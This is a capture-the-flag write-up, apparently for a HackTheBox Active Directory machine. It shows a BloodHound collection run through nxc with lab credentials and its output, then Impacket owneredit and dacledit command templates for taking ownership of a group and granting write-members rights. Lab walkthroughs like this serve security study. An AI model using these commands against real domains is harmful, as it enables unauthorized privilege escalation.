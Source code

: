 ```bash unwrap title="bloodhound ingestor" 
┌──(root㉿n0m4d)-[/host_data]
└─# nxc ldap --dns-server 10.10.11.41 -u judith.mader -p judith09 --bloodhound --collection All 10.10.11.41
LDAP        10.10.11.41     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: localadmin, group, objectprops, acl, rdp, psremote, trusts, dcom, container, session
LDAP        10.10.11.41     389    DC01             Done in 00M 02S
LDAP        10.10.11.41     389    DC01             Compressing output into /root/.nxc/logs/DC01_10.10.11.41_2025-07-07_022315_bloodhound.zip
```

![](Assets/Pasted%20image%2020250707103240.png)

## Exploiting Permissions

![](Assets/Pasted%20image%2020250707104256.png)

Bloodhound gives us the map of the network, and if we trace the outgoing connections from Judith Mader's account, we get to the end (CA_Operator). So we map the path, and look through the permissions each one has over the next.

Bloodhound provides some help with exploiting each relationship.

![](Assets/Pasted%20image%2020250707112247.png)

![](Assets/Pasted%20image%2020250707113303.png)

![](Assets/Pasted%20image%2020250707114223.png)

![](Assets/Pasted%20image%2020250707114446.png)

![](Assets/Pasted%20image%2020250707114503.png)

### Management Group (WriteOwner)

To change the ownership of the object, you may use Impacket's owneredit example script (cf. "grant ownership" reference for the exact link).

```bash
owneredit.py -action write -owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

**Modifying the rights**

To abuse ownership of a group object, you may grant yourself the `AddMember` permission.

Impacket's dacledit can be used for that purpose (cf. "grant rights" reference for the link).

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
```
